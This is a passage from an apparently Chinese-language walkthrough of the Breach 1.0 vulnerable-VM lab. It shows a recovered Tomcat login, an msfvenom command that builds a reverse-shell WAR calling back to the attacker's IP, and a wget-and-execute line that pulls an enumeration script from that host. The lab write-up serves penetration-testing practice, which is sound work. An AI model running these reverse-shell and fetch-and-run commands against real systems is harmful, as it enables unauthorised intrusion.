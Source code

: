 ![image-20200629225733366]({{ site.url }}/assets/Breach_1.0.assets/image-20200629225733366.png)

![image-20200629230401091]({{ site.url }}/assets/Breach_1.0.assets/image-20200629230401091.png)

```bash
tomcat:Tt\5D8F(#!*u=G)4m7zB
```

![image-20200629230258624]({{ site.url }}/assets/Breach_1.0.assets/image-20200629230258624.png)

```bash
https://192.168.110.140:8443/_M@nag3Me/html
```

![image-20200629234052076]({{ site.url }}/assets/Breach_1.0.assets/image-20200629234052076.png)

无法正常加载页面，打开burpsuite通过bp进行代理。成功显示，使用之前的凭证登录

![image-20200629234313116]({{ site.url }}/assets/Breach_1.0.assets/image-20200629234313116.png)

![image-20200630015804085]({{ site.url }}/assets/Breach_1.0.assets/image-20200630015804085.png)

tomcat直接制作rshell上传

```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.110.131 LPORT=1337 -f war -o shell.war
```

![image-20200630015904048]({{ site.url }}/assets/Breach_1.0.assets/image-20200630015904048.png)

![image-20200630020554409]({{ site.url }}/assets/Breach_1.0.assets/image-20200630020554409.png)

注意在这里点击执行之前，需要关掉bp的监听，但是不要拿掉bp在firefox中的代理。

![image-20200630020740663]({{ site.url }}/assets/Breach_1.0.assets/image-20200630020740663.png)

![image-20200630021126131]({{ site.url }}/assets/Breach_1.0.assets/image-20200630021126131.png)

查看了一圈，没有发现什么有用的信息

上传脚本，检查更多设置

```bash
wget http://192.168.110.131:8080/lse.sh && chmod +x lse.sh && ./lse.sh -i -l 2
```

![image-20200630021819775]({{ site.url }}/assets/Breach_1.0.assets/image-20200630021819775.png)

![image-20200630022001066]({{ site.url }}/assets/Breach_1.0.assets/image-20200630022001066.png)

mysql是可以不用密码登录的

![image-20200630022702807]({{ site.url }}/assets/Breach_1.0.assets/image-20200630022702807.png)

登录成功，查看了impresscms库，但是却没有预期的其他用户凭证。
